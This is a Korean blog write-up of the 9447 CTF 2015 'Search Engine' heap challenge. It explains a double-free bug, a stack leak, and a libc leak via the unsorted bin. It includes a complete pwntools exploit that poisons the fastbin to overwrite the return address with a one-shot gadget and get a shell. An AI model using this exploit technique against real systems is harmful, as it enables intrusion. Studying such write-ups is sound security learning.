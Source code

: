 ```yaml
---
layout: post
title: ! "[9447 CTF 2015] Search Engine"
comments: true
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - pwnable
  - heap
  - MyriaBreak
---
```


요즘 `Heap` 쪽을 공부하고 있습니다. 그래서 `Shellphish`팀에서 정리해놓은 `how2heap`문서를 보면서 공부를 하고 있는데, 처음부터 굉장히 어려운 문제를 잡은 느낌이 듭니다 ;;
이 문제를 본 것은 한달 전이지만 푼 것은 한달 후네요 ㅠ
아무튼 시작했으니 끝을 보긴해야해서 이렇게 write up으로 남겨봅니다.

<!--more-->

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_01.PNG)

예시가 너무 어렵습니다 `Shellphish`팀... 쉬운 문제없나요 ㅠ

```
Ever wanted to search through real life? Well this won't help, but it will let you search strings.

Find it at search-engine-qgidg858.9447.plumbing port 9447.

```

아무튼 문제는 위와 같습니다. 문자열 검색을 수행하는 바이너리를 하나 던져주는데, 보호기법을 확인해보면 아래와 같습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_04.PNG)

`Canary`와 `NX`가 걸려있는데, 일단 한번 실행해보는게 좋을 것 같습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_02.PNG)

주어진 바이너리를 실행하게 되면 3가지 메뉴가 주어지고 문자열을 추가(Index), 검색(Search)할 수 있습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_03.PNG)

그리고 Search를 통해 단어를 검색하여 그 단어가 포함된 문장을 검색할 수 있고, 또 검색한 후 그 문자열을 삭제할지 말지를 결정할 수 있습니다.

이제 `IDA`를 통해 바이너리의 자세한 과정을 살펴보겠습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_05.PNG)

while문안에서 메뉴를 출력하고 어떤 기능을 수행할지 선택하게 됩니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_08.PNG)

`AddSentence함수`를 살펴보면 위와 같이 구조체를 malloc을 통해 할당하여 입력받은 문장을 저장하는 것을 볼 수 있습니다.

또한 `공백`을 기준으로 word를 나눠서 이를 또 구조체를 malloc으로 할당해서 `Linked list`를 만들게 됩니다.


```c++
struct dic {
    char* word_addr;
    int word_size;
    char* sentence_addr;
    int sentence_size;
    struct dic* next;
};
```
그럼 이제 어디서 취약점이 터지느냐?
아래 `Search`함수를 보면 `memset`을 통해서 `sentence`에 저장된 내용은 NULL(0)으로 모두 지워버리고, `free`를 하는 것을 볼 수 있습니다. 하지만 `word`들이 저장된 `Linked List`에서는 이를 삭제해버리지 않기때문에, NULL값을 검색하게되면 이미 삭제되었던 값을 다시 한번 삭제하고 `free`할 수 있게 되어 `double free bug`가 발생하게 됩니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_07.PNG)

그러므로 우리는 여기서 fastbin list를 `HEAD -> B -> A -> B` .. 형식으로 만들 수 있고, B를 2번 할당할 수 있으므로 B의 `fd` 값을 수정하여 다음에 할당할 영역의 주소를 임의로 조작할 수 있습니다.

그런데 어디에 있는 값을 수정해야할까요?

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_10.PNG)

main함수가 끝나는 `ret`에 break를 걸고 스택에 있는 값을 살펴보면 위와 같습니다. 0x40~~이 있는데 이 위치를 잘 조정해서, 아래와 같이해서 fastbin리스트에 넣게되면 0x40을 size로 보고 정상적으로 `fastbin`에 포함되게 됩니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_11.PNG)

>하지만 저희는 스택값을 모르는데요?

그래서 스택값을 `leak`해야하는데, 이것은 아래 함수를 통해서 할 수 있습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_06.PNG)

위 함수는 사용자로부터 숫자를 입력받고, 만약 숫자가 아닌값이 입력된다면 재귀적으로 다시 한번 자기자신을 호출하여 숫자를 입력받을 때까지 계속하게 호출되게 됩니다.
그런데 이 때 2번째 `Select_choice`함수를 호출하게 될 때, 이전 함수의 ebp가 남아있게 되는데 이 위치가 `num+48`에 있기때문에 num을 입력할 때, 문자열 48자리로 채우게 되면 printf로 출력될 때 NULL바이트를 만날때까지 출력되기때문에 스택주소를 leak할 수 있습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_12.PNG)

자.. 이제 스택 주소도 구했겠다. 이제 `library주소`만 leak할 수 있다면 완벽할 텐데 말이죠. 그래서 여러가지 알아보던 중에 저희 팀의 `chaem`님이 올린 글을 보게됬는데, 여기서 smallbin을 이용해서 library주소를 leak할 수 있다는 것을 알게 되었습니다.

---
[(0ctf2017) babyheap Write up](https://go-madhat.github.io/0ctfbabyheap-writeup/)에서 나온 smallbin을 이용하는 방법입니다.

#### 6. 그리고 4번 chunk의 크기를 다시 smallbin 크기로 만들어주고 free합니다. free하면 smallbin 특성상 unsorted bin이 되기 때문에 fd와 bk에 main_arena+88 주소가 남게 됩니다. 이 점을 이용하면 dump를 통해 main_arena+88의 leak이 가능합니다.
---

fastbin 이외의 다른 bin들은 free되고 나면 데이터영역에 fd와 bk가 남게되는데, 이 때 다음 fd와 bk를 연결할 chunk가 없다면 libc의 `<main_area+88>`의 주소가 남게됩니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_14.PNG)
![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_13.PNG)
![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_15.PNG)

자. 이제 `libc_base`도 구했고, `stack_address`도 있으니 `double free bug`를 이용해서 `ret`에 원하는 주소를 쓰면 되겠습니다.

이것을 정리하면 아래와 같습니다.

1. `stack address`, `libc_base` leak
2. `oneshot_gadget` 구하기
3. `ret`를 `oneshot_gadget`으로 덮기

```python
#!/usr/bin/env python
from pwn import *

conn = process("search")

def leak_stack():
	conn.recvuntil("3: Quit")
	conn.sendline("1")
	conn.recvuntil("size:")
	conn.sendline("A")
	conn.recvuntil("number")
	conn.sendline("A"*48)
	stack_addr = conn.recvuntil(" is ")[-10:-4]
	stack_addr = u64(stack_addr + "\x00"*2)
	conn.sendline("1")
	conn.recvuntil("word:")
	conn.sendline("A")
	return stack_addr

def Search(word, size):
	conn.recvuntil("3: Quit")
	conn.sendline("1")
	conn.recvuntil("size:")
	conn.sendline(str(size))
	conn.recvuntil("word:")
	conn.sendline(word)

def Delete(choice):
	conn.recvuntil("(y/n)?")
	conn.sendline(choice)

def AddSentence(sentence, size):
	conn.recvuntil("3: Quit")
	conn.sendline("2")
	conn.recvuntil("size:")
	conn.sendline(str(size))
	conn.recvuntil("sentence:")
	conn.sendline(sentence)

stack_addr = leak_stack() + 0x92 # fake size 0x40
log.info("stack_addr : 0x%x" % stack_addr)

#leak_libc  -  <main_arena+88>
AddSentence("A"*506+" small", 512)
Search("small", 5)
Delete("y")

Search("\0"*5, 5)
conn.recvuntil(": ")
libc_addr = u64(conn.recv(8)) - 0x3c4b78
log.info("libc_addr  : 0x%x" % libc_addr)
Delete("n")

# double free bug
AddSentence("A"*50+" dfb", 54) #A
AddSentence("B"*50+" dfb", 54) #B
AddSentence("C"*50+" dfb", 54) #C

# fastbin HEAD -> A -> B -> C -> NULL
Search("dfb", 3)
Delete("y") #C
Delete("y") #B
Delete("y") #A

# fastbin HEAD -> B -> A -> B -> C -> NULL
Search("\x00"*3, 3)
Delete("y") #B
Delete("n") #A

# fastbin HEAD -> B -> A -> B -> X ...
AddSentence(p64(stack_addr).ljust(54), 54) #B
AddSentence("A"*50+" dfb", 54) #A
AddSentence("A"*50+" dfb", 54) #B

# ret overwrite
oneshot = libc_addr + 0x45216
log.info("oneshot  : 0x%x" % oneshot)

payload = "A"*6
payload += p64(oneshot)
AddSentence(payload.ljust(54), 54) #B

conn.recvuntil("3: Quit")
conn.sendline("3")

conn.interactive()



```

이제 익스코드를 돌려보면 아래와 같이 쉘을 얻은 것을 볼 수 있습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_16.PNG)

### *후기

역시 heap은 어렵군요 ㅠㅠ 더 열심히 공부해야겠습니다. 분명 비슷한 문제를 이전에 풀어본거같은데, 할 때마다 heap은 헷갈리는 것 같습니다. 익숙치않아서 그런걸까요 ㅎㅎ;
그리고 저는 pwnalbe문제를 풀 때 주로 peda를 쓰는데, 역시 heap 문제 풀때는 pwndgb가 더 편한것같네요... 다음에 문제를 풀게 되면 한 번 이용해봐야겠습니다. 워낙 익숙하지않아서 후... 다음번에는 좀 더 문제를 빠르게 풀 수 있으면 좋겠습니다!

